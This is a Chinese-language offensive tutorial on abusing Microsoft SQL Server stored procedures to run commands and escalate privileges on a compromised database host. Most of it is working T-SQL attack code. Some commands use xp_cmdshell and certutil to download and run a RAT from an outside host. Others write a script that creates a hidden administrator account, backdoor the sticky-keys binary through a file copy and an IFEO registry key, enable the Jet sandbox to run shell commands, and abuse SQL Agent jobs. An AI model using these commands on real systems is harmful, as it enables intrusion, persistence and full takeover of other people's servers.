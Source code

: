 # 0x00 xp_cmdshell

上一章备份中已经提到这个函数，在我们遇到站库分离的时候，没办法写webshell，后台也没办法拿下shell的情况下不妨试试用xp_cmdshell下载我们的RAT直接拿下数据库
下载文件我们有几个常用的思路如下

1. certutil

2. vbs

3. bitsadmin

4. powershell

5. ftp

这里我就用Cobalt Strike 不会的朋友可以看看我前面写的CS教程,他来搞这几个过程比较方便，我这里就以certutil为例，其他的用法在网上都很多的。

上传到一个可读可写的目录

```
exec master.dbo.xp_cmdshell 'cd c:\www & certutil -urlcache -split -f http://192.168.130.142:80/download/file.exe';

exec master.dbo.xp_cmdshell 'cd c:\www & file.exe';

```

![mysql](./img/2.2.1.png)

顺道还用cs自带的ms14-058提权了一下



# 0x01 sp_oacreate

当xp_cmdshell 被删除可以使用这个来提权试试,恢复sp_oacreate

```
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'Ole Automation Procedures', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'show advanced options', 0;

```

sp_oacreate是一个非常危险的存储过程可以删除、复制、移动文件 还能配合sp_oamethod 来写文件执行cmd

在以前的系统有这几种用法 

1. 调用cmd 来执行命令 

```
wscript.shell执行命令

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c xxx'



Shell.Application执行命令
declare @o int
exec sp_oacreate 'Shell.Application', @o out
exec sp_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c net user >c:\test.txt','c:\windows\system32','','1';

```

2. 写入启动项

```
declare @sp_passwordxieo int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'd:\RECYCLER\1.vbs', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'set wsnetwork=CreateObject("WSCRIPT.NETWORK")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'os="WinNT://"&wsnetwork.ComputerName'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set ob=GetObject(os)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set oe=GetObject(os&"/Administrators,group")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set od=ob.Create("user","123$")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetPassword "123"'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetInfo'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set of=GetObject(os&"/123$",user)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'oe.add os&"/123$"';

```

3. 粘贴键替换

```
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\explorer.exe' ,'c:\windows\system32\sethc.exe';
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\sethc.exe' ,'c:\windows\system32\dllcache\sethc.exe';

```

大家可以灵活运用，这里也可以这样玩，把他写成vbs或者其他的来下载文件 ，为什么不直接调用cmd来下载，再2008系统上我是不成功的，但是sp_oacreate可以启动这个文件，所以换个思路

```
declare @sp_passwordxieo int, @f int, @t int, @ret int;
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out;
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'c:\www\1.bat', 1;
exec @ret = sp_oamethod @f, 'writeline', NULL,'@echo off';
exec @ret = sp_oamethod @f, 'writeline', NULL,'start cmd /k "cd c:\www & certutil -urlcache -split -f http://192.168.130.142:80/download/file.exe"';


declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\www\1.bat'

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\www\file.exe'

```

![mysql](./img/2.2.2.png)


当然这里只是一种思路，你完全可以用vbs来下载什么的


# 0x02 沙盒

由于环境问题我这里就不演示了

```
1. exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

2. exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'

3. Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Databasec:\windows\system32\ias\ias.mdb','select shell( net user itpro gmasfm /add )');

```

引用前辈们的话

>1，Access可以调用VBS的函数，以System权限执行任意命令
>2，Access执行这个命令是有条件的，需要一个开关被打开
>3，这个开关在注册表里
>4，SA是有权限写注册表的
>5，用SA写注册表的权限打开那个开关
>6，调用Access里的执行命令方法，以system权限执行任意命令执行SQL命令，执行了以下命令


# 0x03 xp_regwrite

修改注册表 来劫持粘贴键 当然在2008数据库是不成立的 因为默认权限很低

```

exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution
Options\sethc.EXE','Debugger','REG_SZ','C:\WINDOWS\explorer.exe';

```


# 0x04 pulic

这种pulic提权 实际情况也很少吧,也是提一下了

```
USE msdb
EXEC sp_add_job @job_name = 'GetSystemOnSQL', www.2cto.com
@enabled = 1,
@description = 'This will give a low privileged user access to
xp_cmdshell',
@delete_level = 1
EXEC sp_add_jobstep @job_name = 'GetSystemOnSQL',
@step_name = 'Exec my sql',
@subsystem = 'TSQL',
@command = 'exec master..xp_execresultset N''select ''''exec
master..xp_cmdshell "dir > c:\agent-job-results.txt"'''''',N''Master'''
EXEC sp_add_jobserver @job_name = 'GetSystemOnSQL',
@server_name = 'SERVER_NAME'
EXEC sp_start_job @job_name = 'GetSystemOnSQL'

```


mssql众多的储存过程是我们利用的关键 当然还有很多可能没被提出，需要自己的发现，比如在遇到iis6的拿不了shell还有个上传可以跳目录，不妨试试xp_create_subdir
建立个畸形目录解析。

# 0x05 文末

具体这些怎么使用，看具体环境吧

#### 本文如有错误，请及时提醒，避免误导他人


BY 404
